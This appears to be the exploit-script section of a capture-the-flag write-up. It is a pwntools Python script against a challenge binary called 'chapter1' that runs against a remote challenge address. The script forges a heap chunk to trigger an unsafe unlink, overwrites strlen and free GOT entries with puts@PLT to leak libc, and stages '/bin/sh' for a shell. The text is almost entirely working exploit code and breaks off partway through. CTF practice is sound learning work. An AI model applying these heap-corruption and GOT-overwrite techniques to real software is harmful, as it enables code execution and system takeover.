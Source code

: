 ## Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./chapter1', checksec=False)

if args.REMOTE:
    p = remote('178.62.90.208', 30352)
    libc = ELF('./libc-remote.so')
else:
    p = process()
    libc = elf.libc

CHUNKLIST = 0x6020c0

def alloc(size=0x98, data='a'):
    p.sendlineafter('>> ', '1')
    p.sendlineafter('Size: ', str(size))
    p.sendlineafter('Data: ', data)

def free(idx):
    p.sendlineafter('>> ', '3')
    p.sendlineafter('Index: ', str(idx))

def edit(idx, data='a'):
    p.sendlineafter('>> ', '2')
    p.sendlineafter('Index: ', str(idx))
    p.sendlineafter('Data: ', data)

alloc()
alloc(data='/bin/sh\x00')
alloc()
alloc(data='A' * 0x98)
alloc()

fake_chunk = flat(
    0x0,                # fake prev_size (of fake chunk)
    0x91,               # fake size
    CHUNKLIST,          # fd (controlled)
    CHUNKLIST + 8,      # bk (controlled)
    b'A' * (0x70),      # pad to -8 off max size so we can fake prev_size
    0x90                # fake prev_size
)
fake_chunk += p16(0xa0) # overwrite PREV_IN_USE

edit(3, fake_chunk)
free(4)

# now we write strlen@GOT to the chunklist
edit(3, p64(elf.got['strlen']))
edit(0, p64(elf.plt['puts']))

# now when we edit() we read chunk contentx
# but strlen@got holds a PLT address, so let's change the GOT entry for the leak
edit(3, p64(elf.got['free']))

# have to do this one part at a time to grab the address
p.sendline('2')
p.sendlineafter('Index: ', '0')

if args.REMOTE:
    p.recvuntil('0\r\n')
```